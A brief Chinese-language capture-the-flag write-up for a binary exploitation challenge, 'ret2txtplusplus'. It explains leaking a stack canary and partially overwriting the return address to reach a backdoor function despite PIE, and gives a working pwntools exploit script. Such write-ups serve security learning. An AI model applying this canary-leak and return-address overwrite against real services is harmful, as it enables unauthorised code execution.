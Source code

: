 # ret2txtplusplus

## 文件分析

下载`ret2txtpp`, 保护全开  
ghidra分析为64位程序

## 逆向

总体思路和上一题一致，但是加了pie，但我们又没法获取  
不过这次在vuln函数中运行，那么只要改掉最后2个字节就可以跳转到`back_door`（本来是跳转到main）  
~~如果rsp & 0xf != 0就没辙了~~

注意最后不能用sendline，因为会多填充一个\n导致地址错误  
查看pwntools源码，发现send后会flush，也可以结束读取

## EXPLOIT

```python
from pwn import *
sh = remote(???, 10015)
sh.sendline(b'0'*0x17 + b'.')
sh.recvuntil(b'.\n')
canary = u64(b'\0' + sh.recvline()[:7])
sh.send(b'0'*0x18 + p64(canary) + b'0'*8 + p16(0x08f4))
sh.interactive()
```

Done.
